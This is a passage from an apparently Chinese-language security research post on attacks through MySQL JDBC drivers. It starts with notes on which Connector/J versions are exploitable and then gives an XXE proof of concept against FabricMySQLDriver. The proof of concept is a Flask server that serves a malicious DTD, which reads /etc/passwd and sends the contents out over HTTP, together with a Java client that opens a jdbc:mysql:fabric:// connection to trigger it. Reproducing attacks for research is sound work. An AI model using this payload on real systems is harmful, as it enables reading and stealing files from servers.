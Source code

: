 `8.0.x`不存在getObject方法的调用

`6.x`能够利用，因为他在`com.mysql.cj.jdbc.ConnectionImpl`中调用了`ResultSetUtil.resultSetToMap`和上面的功能类似，且没有版本判断

从`5.1.29`开始启用`detectCustomCollations`属性，但是直到`5.1.49`做出了更改导致不能使用

在`5.1.19 - 5.1.28`过程中，不存在`detectCustomCollations`属性的判断，但是仍然可以调用

`5.1.18`以下没有使用`getObject`方法的调用



下面我将记录一些不同数据库的攻击，这里就不分析了，仅做一个复现

# XXE攻击

**原理**

在mysql connector 5.1.48版本中，注册了两个驱动。除了常见的驱动com.mysql.cj.jdbc.Driver之外，就是这个名为com.mysql.fabric.jdbc.FabricMySQLDriver的驱动。

MySQL Fabric 是一个管理 MySQL 服务器场的系统。MySQL Fabric 提供了一个可扩展且易于使用的系统，用于管理 MySQL 部署以实现分片和高可用性。

Litch1研究了FabricMySQLDriver的源码，发现如果连接url以jdbc:mysql:fabric://开头，程序就会进入Fabric流程逻辑。

**POC**

起一个flask，返回一个XXE的payload

```
from flask import Flask

app = Flask(__name__)

@app.route('/xxe.dtd', methods=['GET', 'POST'])
def xxe_oob():
    return '''<!ENTITY % aaaa SYSTEM "fiLe:///etc/passwd">
<!ENTITY % demo "<!ENTITY bbbb SYSTEM
'http://127,0.0.1:5000/xxe?data=%aaaa;'>"> %demo;'''
@app.route('/', methods=['GET', 'POST'])
def dtd():
    return '''<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY % xd SYSTEM "http://127.0.0.1:5000/xxe.dtd"> %xd;]>
<root>&bbbb;</root>'''
if __name__ == '__main__':
    app.run()
```

Xxetest.java

```
package JDBCAttack;

import java.sql.Connection;
import java.sql.DriverManager;

public class xxetest {
    public static void main(String[] args) throws Exception{
        String url = "jdbc:mysql:fabric://127.0.0.1:5000";
        Connection conn = DriverManager.getConnection(url);
    }
}
```
